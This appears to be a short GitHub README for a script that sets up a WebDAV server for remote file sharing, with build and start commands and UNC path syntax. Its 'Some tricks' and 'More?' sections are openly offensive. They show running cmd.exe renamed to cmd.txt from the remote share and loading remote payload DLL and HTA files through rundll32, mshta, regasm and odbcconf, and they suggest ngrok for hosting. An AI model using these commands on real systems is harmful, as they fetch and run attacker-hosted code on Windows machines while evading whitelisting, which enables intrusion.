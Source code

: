 # Set Up WebDAV Server for Remote File Sharing
## Usage
Build:
```
chmod+x build.sh
.\build.sh
```
Start server:
```
chmod +x start.sh
.\start.sh 8080
```

## Example

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190822111539.png)

Just put the file in `share` folder.


![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190822112025.png)


## UNC PATH
```
\\server@port\folder
\\server@SSL@port\folder
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190822112343.png)


## Some tricks
```
\\server@port\folder\cmd.exe /c whoami
```
You can rename cmd.exe to any name you want, example:cmd.txt 

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190822112752.png)


## More?

```
rundll32 \\webdavserver\folder\payload.dll
mshta \\webdavserver\folder\payload.hta
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
...
```

## No VPS?

Try ngrok..
